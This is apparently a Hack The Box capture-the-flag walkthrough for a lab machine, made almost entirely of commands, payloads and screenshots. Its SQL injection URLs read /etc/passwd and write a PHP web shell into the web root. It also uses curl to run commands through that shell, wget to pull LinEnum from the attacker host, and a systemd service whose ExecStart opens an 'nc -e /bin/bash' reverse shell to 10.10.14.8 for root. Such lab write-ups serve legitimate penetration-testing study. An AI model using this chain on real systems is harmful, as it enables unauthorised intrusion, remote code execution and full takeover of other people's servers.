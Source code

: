 ```
SQL injection
Webshell
sudo -l
Reverse Shell - Bash
LinEnum
PrivEsc - systemctl
```

```
nmap -sS -sC -sV -T5 -Pn 10.10.10.143
```
![image](https://user-images.githubusercontent.com/33616880/231966154-8ab1d289-572e-4097-8072-e2a664de70ca.png)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.143/FUZZ -fc 403 -e .aspx,.php,.txt,.html
```
![image](https://user-images.githubusercontent.com/33616880/231966267-6a6058e9-6223-44d8-acd9-72244a55407f.png)


```
http://10.10.10.143/room.php?cod=2
```
![image](https://user-images.githubusercontent.com/33616880/231967239-40ac1ae1-c35f-4c56-9740-62bd236b9436.png)


```
http://10.10.10.143/room.php?cod=2%20and%201=1
```
![image](https://github.com/regarmulia/HTB/assets/33616880/954aab73-ed1c-419c-8120-3785d666d6ad)

![image](https://user-images.githubusercontent.com/33616880/231967993-6a81e947-d988-4e23-9042-a8ba3eb2bca0.png)

```
https://book.hacktricks.xyz/pentesting-web/sql-injection
http://10.10.10.143/room.php?cod=2%20and%20sleep(1)
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ddf2a7c4-21db-4f02-b720-c395f310f43d)

![image](https://github.com/regarmulia/HTB/assets/33616880/3d1f65d6-d527-4714-96fd-937e21ca143e)


```
http://10.10.10.143/room.php?cod=2%20UNION%20SELECT%201,2,3,4,5,6
```
![image](https://github.com/regarmulia/HTB/assets/33616880/e3378196-1f96-4498-80f3-f98126a10cb9)


```
http://10.10.10.143/room.php?cod=-2%20UNION%20SELECT%20@@version,2,3,4,5,6,7
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d80371a3-ed4b-47d9-affa-b27701b9a6e0)


```
http://10.10.10.143/room.php?cod=-2%20UNION%20SELECT%201,2,gRoUp_cOncaT(0x7c,schema_name,0x7c),4,5,6,7%20fRoM%20information_schema.schemata
http://10.10.10.143/room.php?cod=-2%20UNION%20SELECT%201,load_file(%27/etc/passwd%27),3,4,5,6,7
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1c55adc4-ecb8-406c-96cd-15128c20c4ba)


```
http://10.10.10.143/room.php?cod=-2%20UNION%20SELECT%201,load_file(%27/etc/passwd%27),3,4,5,6,7%20into%20outfile%20%27/var/www/html/hacked.txt%27
http://10.10.10.143/hacked.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/35d70a8f-2890-487a-a5a3-fc324b50d5e8)


```
http://10.10.10.143/room.php?cod=-2%20UNION%20SELECT%201,%27%3C?php%20system($_REQUEST[%22exec%22]);?%3E%27,3,4,5,6,7%20into%20outfile%20%27/var/www/html/pwned.php%27
curl -X POST http://10.10.10.143/pwned.php --data-urlencode 'exec=whoami'
```
![image](https://github.com/regarmulia/HTB/assets/33616880/726e93c7-7eaa-4d83-9219-6744746e6189)







```
wget 10.10.14.8/LinEnum.sh
./LinEnum.sh
```
![image](https://user-images.githubusercontent.com/33616880/231979671-3ca30d26-3d40-412d-9cca-28b91cfaf839.png)
![image](https://user-images.githubusercontent.com/33616880/231979698-96af9d79-761b-4c32-a848-0c182173242e.png)


https://gtfobins.github.io/gtfobins/systemctl/
```
[Service]
Type=notify
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.14.8 443'
KillMode=process
Restart=on-failure
RestartSec=42s

[Install]
WantedBy=multi-user.target
```
```
systemctl link /home/pepper/pwn.service
systemctl start pwn
```
![image](https://user-images.githubusercontent.com/33616880/231983233-c91e3200-561c-4995-8062-6cec3de97037.png)
![image](https://user-images.githubusercontent.com/33616880/231983256-1099084a-99c6-4477-a764-4c9530724f65.png)



